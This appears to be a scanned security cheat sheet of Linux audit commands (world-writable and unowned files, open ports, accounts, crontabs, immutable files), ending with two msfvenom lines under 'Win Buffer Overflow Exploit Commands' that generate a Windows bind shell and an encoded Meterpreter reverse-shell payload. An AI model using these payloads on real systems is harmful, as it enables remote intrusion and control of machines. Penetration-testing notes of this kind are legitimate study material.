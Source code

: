 # find things that are world writable
find / -perm -o=w

# find names with dots and spaces, there shouldn’t be any
find / -name " " -print
find / -name ".." -print
find / -name ". " -print
find / -name " " -print

# find files that are not owned by anyone
find / -nouser

# look for files that are unlinked
lsof +L1

# get information about procceses with open ports
lsof -i

# look for weird things in arp
arp -a

# look at all accounts including AD
getent passwd

# look at all groups and membership including AD
getent group

# list crontabs for all users including AD
for user in $(getent passwd|cut -f1 -d:); do echo "### Crontabs for $user ####"; crontab -u $user -l; done

# generate random passwords
cat /dev/urandom| tr -dc ‘a-zA-Z0-9-_!@#$%^&*()_+{}|:<>?=’|fold -w 12| head -n 4

# find all immutable files, there should not be any
find . | xargs -I file lsattr -a file 2>/dev/null | grep ‘^….i’

# fix immutable files
chattr -i file
Win Buffer Overflow Exploit Commands
msfvenom -p windows/shell_bind_tcp -a x86 --platform win -b "\x00" -f c
msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=443 -a x86 --platform win -e x86/shikata_ga_nai -b "\x00" -f c
